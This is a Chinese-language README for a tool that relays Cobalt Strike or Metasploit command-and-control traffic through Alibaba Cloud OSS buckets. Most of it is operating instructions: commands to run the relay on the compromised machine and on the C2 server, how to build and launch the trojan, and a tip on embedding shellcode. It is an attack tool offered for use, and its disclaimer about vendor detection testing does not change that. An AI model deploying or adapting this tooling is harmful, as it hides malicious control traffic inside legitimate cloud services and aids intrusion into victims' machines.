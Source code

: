 # aliyun-oss-c2
利用阿里云oss，来转发http流量，该代码是在大佬9bie基础上改造而来（大佬的是利用腾讯云OSS）：https://github.com/9bie/oss-stinger

可以用来cs/msf上线等

# 免责声明
*****
该工具仅用于各安全公司用于提升自己安全产品检测能力

由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。
*****

# 如何使用
```
[WARN] 需要确保OSS ACCESS KEY和OSS ACCESS KEY SECRET的权限最低
  -address string
        监听地址或者目标地址，格式：127.0.0.1:8080，即CS监听本地端口
  -bucket string
        请输入你的阿里云bucket
  -endpoint string
        请输入你Bucket对应的Endpoint，以华东1（杭州）为例，填写为oss-cn-hangzhou.aliyuncs.com
  -id string
        输入你的阿里云OSS ACCESS KEY
  -key string
        输入你的阿里云OSS ACCESS KEY SECRET
  -mode string
        client/server 二选一
[WARN] 运行案例：
[WARN] 在要上线机器上运行下面程序后再运行马：
aliyun-oss-c2-core.exe -mode client -address 127.0.0.1:8080 -endpoint oss-cn-beijing.aliyuncs.com -id LTAI5tNEupVMgZYjkJELsXXX -key qGTqABP1sQSxGhwSvt6J1W8QXXXXXX -bucket XXXX
[WARN] 在服务器（C2机器上）运行下面程序后再运行马：
aliyun-oss-c2-core.exe -mode server -address 127.0.0.1:8080 -endpoint oss-cn-beijing.aliyuncs.com -id LTAI5tNEupVMgZYjkJELsXXX -key qGTqABP1sQSxGhwSvt6J1W8QXXXXXX -bucket XXXX
```
首先，现在cs生成一个http的listen，并把host都改成127.0.0.1，然后生成木马
![img.png](.README/img3.png)

1、去阿里云申请一个OSS的Bucket列表，Buckert的名称对应上面的-bucket的值
https://oss.console.aliyun.com/bucket
![img.png](.README/img.png)
点击创建好的Bucket即可获取到对应的endpoint，即对应上面的-endpoint的值
![img.png](.README/img2.png)
然后再去 `https://ram.console.aliyun.com/users` 拿到。

然后就可以使用我们的工具，先在客户机上起一个转发器。使用命令OSS ACCESS KEY和OSS ACCESS KEY SECRET，记得一定要把权限搞到只能操控该oss

```
# 在要上线机器上运行下面程序后再运行马：
aliyun-oss-c2-core.exe -mode client -address 127.0.0.1:8080 -endpoint oss-cn-beijing.aliyuncs.com -id LTAI5tNEupVMgZYjkJELsXXX -key qGTqABP1sQSxGhwSvt6J1W8QXXXXXX -bucket XXXX
```

然后服务器运行
```
# 在服务器（C2机器上）运行下面程序后再运行马：
aliyun-oss-c2-core.exe -mode server -address 127.0.0.1:8080 -endpoint oss-cn-beijing.aliyuncs.com -id LTAI5tNEupVMgZYjkJELsXXX -key qGTqABP1sQSxGhwSvt6J1W8QXXXXXX -bucket XXXX
```
然后在客户机双击你的木马，就能上线了
![img_1.png](.README/img_1.png)

# tips
如果要弄成一个文件，自行修改代码把shellcode加入进去然后用`go runshellcode()`即可。
secretkey和secretid的安全问题，目前没有什么好的解决方案，当前只能把权限修改成最低。

# TODO
 - shellcode加载
 - 自定义修改流量特征
 - 合并阿里云/aws/腾讯云等支持
 - 添加其他协议支持（HTTPS会优先考虑）
